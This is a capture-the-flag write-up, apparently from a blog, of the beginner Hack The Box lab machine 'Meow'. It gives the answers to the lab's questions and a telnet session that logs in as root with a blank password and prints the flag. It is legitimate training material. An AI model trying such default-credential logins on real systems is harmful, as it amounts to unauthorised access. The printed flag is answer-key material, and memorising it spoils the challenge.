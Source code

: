 ```yaml
---
title: 🔵 HTB / Starting Point / Meow
date: 2022-09-22
categories: [HackTheBox, Machines]
tags: [telnet]
---
```


# 🔵 HTB / Starting Point / Meow

What does the acronym VM stand for?

`Virtual Machine`

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

`terminal`

What service do we use to form our VPN connection into HTB labs?

`openvpn`

What tool do we use to test our connection to the target with an ICMP echo request?

`ping`

What is the name of the most common tool for finding open ports on a target?

`nmap`

What service do we identify on port 23/tcp during our scans?

`telnet`

What username is able to log into the target over telnet with a blank password?

`root`

Submit root flag

```bash
$ telnet <ip>
...

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root

root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```
